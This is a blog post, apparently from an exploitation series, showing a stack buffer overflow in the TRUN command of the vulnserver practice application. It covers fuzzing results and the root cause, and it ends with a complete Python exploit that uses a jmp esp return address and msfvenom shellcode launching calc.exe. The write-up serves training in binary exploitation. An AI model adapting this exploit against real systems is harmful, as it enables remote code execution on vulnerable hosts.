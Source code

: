 ```yaml
---
layout: post
title:  "Vulnserver exploitation series :: TRUN (Vanilla EIP overwrite)"
date:   2021-07-24
categories: exploitation
---
```





## Introduction



In this series of blog posts (Vulnserver exploitation series), I will be exploring an application named [**vulnserver**](https://github.com/stephenbradshaw/vulnserver).

This application is a perfect target to practice binary exploitation and fuzzing on Windows platforms.

To interact with the server, we can use "netcat", and as seen below, the server supports 14 commands:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210720010409790.png)



After fuzzing the server, it was possible to find out the vulnerable commands. Below are the results:

| #    | Command | State          |
| ---- | ------- | -------------- |
| 1    | HELP    | Safe           |
| 2    | STATS   | Safe           |
| 3    | RTIME   | Safe           |
| 4    | LTIME   | Safe           |
| 5    | SRUN    | Safe           |
| 6    | TRUN    | **Vulnerable** |
| 7    | GMON    | **Vulnerable** |
| 8    | GDOG    | Safe           |
| 9    | KSTET   | **Vulnerable** |
| 10   | GTER    | **Vulnerable** |
| 11   | HTER    | **Vulnerable** |
| 12   | LTER    | **Vulnerable** |
| 13   | KSTAN   | Safe           |
| 14   | EXIT    | Safe           |



In this blog post, I'll cover the TRUN command.



## Crashing the server



The TRUN command is vulnerable to a stack-based buffer overflow. After sending a large buffer, the server crashes, and the EIP gets overwritten:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705011004916.png)



Stack layout after the crash:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705011409777.png)





## Root cause of the vulnerability



The server checks if the message starts with `"TRUN "` and allocates a buffer with 3000 bytes:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705014409517.png)



Then it checks if there is a `"."` in the received message, and if it does, it copies 3000 bytes to the allocated buffer:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705014757348.png)



Next, it calls `_Function3`, which copies the 3000 bytes to a smaller buffer, causing a stack-based buffer overflow:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705015107553.png)



## Controlling the instruction pointer



After finding what was the offset to overwrite the instruction pointer (EIP) value, it was possible to set it to the arbitrary value of `42424242` just by sending the right amount of bytes.

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210705015416937.png)



Since Data Execution Prevention (DEP) wasn't enabled and ESP points to the data immediately past the arbitrary EIP value (42424242) on the stack, and because of that, overwriting the instruction pointer (EIP) with an instruction that jumps back to the stack and starts executing arbitrary shellcode is a **valid** option.



## Exploitation



As seen below, by overwriting the instruction pointer (EIP) with an "**jmp esp**" instruction, the server executed an arbitrary shellcode that creates a new "calc.exe" process:

![ ](/assets/images/vulnserver_trun_vanilla_eip/image-20210719162155468.png)



Full exploit code:

```python
#!/usr/bin/env python3
import socket
import sys

def exploit(ip, port):
    # msfvenom -p windows/exec -a x86 --platform windows CMD=calc.exe -b '\x00\x0a\x0d' -f python -e x86/xor_dynamic
    shellcode =  b""
    shellcode += b"\xeb\x23\x5b\x89\xdf\xb0\xed\xfc\xae\x75\xfd\x89\xf9"
    shellcode += b"\x89\xde\x8a\x06\x30\x07\x47\x66\x81\x3f\xb1\xd9\x74"
    shellcode += b"\x08\x46\x80\x3e\xed\x75\xee\xeb\xea\xff\xe1\xe8\xd8"
    shellcode += b"\xff\xff\xff\x17\xed\xeb\xff\x95\x17\x17\x17\x77\x9e"
    shellcode += b"\xf2\x26\xd7\x73\x9c\x47\x27\x9c\x45\x1b\x9c\x45\x03"
    shellcode += b"\x9c\x65\x3f\x18\xa0\x5d\x31\x26\xe8\xbb\x2b\x76\x6b"
    shellcode += b"\x15\x3b\x37\xd6\xd8\x1a\x16\xd0\xf5\xe5\x45\x40\x9c"
    shellcode += b"\x45\x07\x9c\x5d\x2b\x9c\x5b\x06\x6f\xf4\x5f\x16\xc6"
    shellcode += b"\x46\x9c\x4e\x37\x16\xc4\x9c\x5e\x0f\xf4\x2d\x5e\x9c"
    shellcode += b"\x23\x9c\x16\xc1\x26\xe8\xbb\xd6\xd8\x1a\x16\xd0\x2f"
    shellcode += b"\xf7\x62\xe1\x14\x6a\xef\x2c\x6a\x33\x62\xf3\x4f\x9c"
    shellcode += b"\x4f\x33\x16\xc4\x71\x9c\x1b\x5c\x9c\x4f\x0b\x16\xc4"
    shellcode += b"\x9c\x13\x9c\x16\xc7\x9e\x53\x33\x33\x4c\x4c\x76\x4e"
    shellcode += b"\x4d\x46\xe8\xf7\x48\x48\x4d\x9c\x05\xfc\x9a\x4a\x7d"
    shellcode += b"\x16\x9a\x92\xa5\x17\x17\x17\x47\x7f\x26\x9c\x78\x90"
    shellcode += b"\xe8\xc2\xac\xe7\xa2\xb5\x41\x7f\xb1\x82\xaa\x8a\xe8"
    shellcode += b"\xc2\x2b\x11\x6b\x1d\x97\xec\xf7\x62\x12\xac\x50\x04"
    shellcode += b"\x65\x78\x7d\x17\x44\xe8\xc2\x74\x76\x7b\x74\x39\x72"
    shellcode += b"\x6f\x72\x17\xb1\xd9"

    buf = b""
    buf += b"TRUN ."
    buf += b"\x41" * 2006
    buf += b"\xaf\x11\x50\x62"    # 0x625011af jmp esp @ essfunc.dll
    buf += shellcode
    buf += b"\r\n"

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(3)
        s.connect((ip, int(port)))
        s.send(buf)
        print("exploit sent!")
    except Exception as e:
        print(e)

def main():
    if len(sys.argv) != 3:
        print(f"usage: {sys.argv[0]} <ip> <port>")
        return

    ip = sys.argv[1]
    port = sys.argv[2]
    exploit(ip, port)

if __name__ == "__main__":
    main()
```




